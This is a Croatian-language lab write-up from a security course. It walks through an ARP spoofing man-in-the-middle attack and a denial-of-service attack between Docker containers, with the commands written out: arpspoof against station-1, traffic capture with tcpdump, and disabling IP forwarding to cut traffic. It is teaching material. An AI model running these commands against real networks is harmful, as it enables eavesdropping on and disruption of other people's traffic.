 # Lab 1: Man-in-the-middle attack (ARP spoofing)

## Pomoćne komande

- pwd - file path foldera u kojem se trenutno nalazimo
- cd - promjeni direktorij
- ls - izlistaj fileove unutar direktorija
- mkdir - kreiraj direktorij
- wsl - Windows Subsystem for Linux

## Zadatak:

Izvršavanje man in the middle napada (MitM) u virtualnoj Docker mreži i denial od service (DoS) napada iskorištavanjem ranjivosti ARP protokola.

Žrtve napada:

1. station-1
2. station-2

Napadač:

1. evil-station

### Koraci:

 1. kloniranje repozitorija

<aside>
🔹 git clone [https://github.com/mcagalj/SRP-2022-23](https://github.com/mcagalj/SRP-2022-23)

</aside>

 2. mijenjanje radnog direktorij 

<aside>
🔹 cd SRP-2022-23/arp-spoofing/

</aside>

 3. buildanje i pokretanje docker kontejnera 

<aside>
🔹 ./start.sh

</aside>

 4. zaustavljanje docker kontejnera

<aside>
🔹 ./stop.sh

</aside>

 5. pokretanje interaktivnog shella u station-1  kontejneru

<aside>
🔹 docker exec -it station-1 bash

</aside>

 6. provjeravanje nalazi li se station-2 na istoj mreži

<aside>
🔹 ping station-2

</aside>

 7. pokretanje interaktivnog shella u station-2 kontejneru

<aside>
🔹 docker exec -it station-2 bash

</aside>

 8. uspostavljanje komunikacije između station-1 i station-2 

<aside>
🔹 netcat -l -p 8080

</aside>

<aside>
🔹 netcat station-2 8080

</aside>

 9. pokretanje interaktivnog shella u evil-station  kontejneru

<aside>
🔹 docker exec -it evil-station bash

</aside>

 10. evil-station predstavlja se stationu-1 kao station-2 (osluškivanje promet na mrežnoj kartici) - narušavanje **integriteta** i **povjerljivosti**

<aside>
🔹 arpspoof -t station-1 station-2

</aside>

<aside>
🔹 tcpdump

</aside>

 11. prekidanje prometa između station-1 i station-2 - narušavanje **dostupnosti**

<aside>
🔹 echo 0 > /proc/sys/net/ipv4/ip_forward

</aside>